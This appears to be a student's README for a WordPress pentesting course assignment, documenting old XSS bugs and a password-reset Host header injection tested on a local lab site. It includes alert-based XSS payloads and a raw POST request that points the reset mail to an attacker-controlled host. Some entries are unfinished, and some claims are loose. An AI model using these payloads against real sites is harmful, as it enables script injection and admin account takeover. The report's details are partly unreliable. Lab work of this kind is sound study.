# Assignment_7
# Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) VUlnerability Name or ID: Wordpress 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename
  - [ ] Summary: Used wpscan to locate XSS vulnerability. Then look at steps to recreate. 
    - Vulnerability types:XSS
    - Tested in version: WP 4.2 
    - Fixed in version: WP 4.2.10
  - [ ] GIF Walkthrough: <a href="https://imgur.com/koN3Nea"><img src="https://i.imgur.com/koN3Nea.gif" title="source: imgur.com" /></a>
  - [ ] Steps to recreate: Login as admin. Go to create a page. Insert XSS into the headline of the page. View page. XSS will demonstrate. 
  - [ ] Affected source code: .....<div class="entry-content">
		<p class="p1"><span class="s1">&lt;IMG SRC=&#8221;#&#8221; ONERROR=&#8221;</span><span class="s2">alert(&#8216;XSS&#8217;)</span><span class="s1">&#8220;/&gt;</span></p>.....
			</div><!-- .entry-content -->
    - [Link 1](https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0)
1. (Required) Vulnerability Name or ID: WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: Script opens backdoor that gives attacker access to the site. 
    - Vulnerability types: XSS
    - Tested in version: WP 4.2
    - Fixed in version: WP 4.2.13
  - [ ] GIF Walkthrough: <a href="https://imgur.com/88S3nye"><img src="https://i.imgur.com/88S3nye.gif" title="source: imgur.com" /></a>
  - [ ] Steps to recreate: Find youtube video link to embed. Use the following code on the end x3csvg onload=alert(1)x3e’ Open backdoor to site.
  - [ ] Affected source code:<iframe width="560" height="315" src="’https://www.youtube.com/embed/fWeR6UhHRAM\x3csvg onload=alert(1)x3e’" frameborder="0" allowfullscreen></iframe>
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Vulnerability Name or ID: WordPress 2.3-4.8.3 - Host Header Injection in Password Reset
  - [ ] Summary: We can manipulate the URL into revealing the admin username. In addition, we can also use a tool like burp to reset the admin password. 
    - Vulnerability types: User Enumeration/ Priviledge Escalation
    - Tested in version: WP 4.2
    - Fixed in version: WP 4.7.4
  - [ ] GIF Walkthrough: <a href="https://imgur.com/E1Nmx8l"><img src="https://i.imgur.com/E1Nmx8l.gif" title="source: imgur.com" /></a>
  - [ ] Steps to recreate: I just tested the URL as my Burp has been acting up...but I am going to post the content I found for that here too. I just added http://wpdistillery.local/wp-login.php?action=adminlostpassword%20HTTP/1.1 an extra little bit of code to the url in order to get the admin username. I could take it a step further and request a new password for the admin and have it sent to my email of choice by sending the email to an email server of my choice and modifying burp in the following manner:
  
  POST /wp/wordpress/wp-login.php?action=lostpassword HTTP/1.1
  
  HOST: injected-attackers-mxserver.com
  
  Content-Type: application/x-www-form-urlencoded
  
  Content-Length: 56
  
  user login=admin&redirect to=wp-submit=Get+New+Password
  
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID: WordPress <= 4.3 - Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.5
  - [ ] GIF Walkthrough: <a href="https://imgur.com/RKAD05s"><img src="https://i.imgur.com/RKAD05s.gif" title="source: imgur.com" /></a>
  - [ ] Steps to recreate: Go to a posting on WP. Go to inspect element. Scroll down to div entry-content. Add the following code: <p>TEST!!!<figure style="width: 1px;" class="wp-caption alignnone"><figcaption class="wp-caption-text"><a href="</figcaption></figure></a><a href="http://onMouseOver='alert(1)'">Click me</a></p>....Clik on the Click Me. XSS Executes
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
